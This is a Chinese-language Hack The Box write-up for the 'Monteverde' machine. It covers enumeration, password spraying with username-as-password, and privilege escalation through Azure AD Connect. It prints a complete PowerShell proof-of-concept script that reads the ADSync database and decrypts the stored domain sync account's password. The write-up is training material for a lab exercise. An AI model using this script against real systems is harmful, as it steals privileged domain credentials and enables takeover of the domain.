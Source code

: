 +++
title = '0X025 monteverde'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE4426b40786740c7305d93ea06e382c93image.png)

![](/htb_img/WEBRESOURCE0370475fd82030fafde08a613842492dimage.png)

![](/htb_img/WEBRESOURCE232cda4a25eed1d4e8da0fa0dc53bfb1image.png)

# 获取立足点

值得关注的端口：445、389、5985

445没有：

![](/htb_img/WEBRESOURCE7afb4bd7f5c08207390677f10b9e8063image.png)

389可以列出用户名：

但是AS-REP Roasting失败：

![](/htb_img/WEBRESOURCEf114d779bca9d8081ca239ac0ad179c9image.png)

那就只能破解试试了：

发现没有锁定策略：

![](/htb_img/WEBRESOURCE49b27ff43cafb6269200e46970c1cdfeimage.png)

经过尝试：

账户名即使密码：

![](/htb_img/WEBRESOURCE105e0d41c91897f7ce7d0554fd87e44aimage.png)

![](/htb_img/WEBRESOURCEe709208fcb6e72c01b8a4d7635afbb5eimage.png)

发现内容：

![](/htb_img/WEBRESOURCEdc8de8f23b84b70e406352ad856bbb41image.png)

密码喷洒：

![](/htb_img/WEBRESOURCE7f024ac9675ca06bcd8eba13e1a56e8eimage.png)

拿到flag:

![](/htb_img/WEBRESOURCE9ee4435ce06c2160a6922134155a562eimage.png)

# 提权

bloodhound

简单解读一下，就是本地提权，或者寻找其他路径：

![](/htb_img/WEBRESOURCEe4cf0162cd4e7cf6da9b86703cce2961image.png)

winpeass:

感觉这个有机会，应为和这个组的权限好像有关系：

![](/htb_img/WEBRESOURCE65d209b7e589d06fcd76176d689c1a16image.png)

看一下软件安装情况，可以发现这些软件：

![](/htb_img/WEBRESOURCEe30dd0a310c0f7457d77fbae05e3a93dimage.png)

后面的内容属实不会了，无奈看了wp:

最后修改的poc:

```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name ='Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```

![](/htb_img/WEBRESOURCEb5d2e0593c0820d808addcfcde8e712cimage.png)

![](/htb_img/WEBRESOURCEb805b08f3067c176e31022a18266eab4image.png)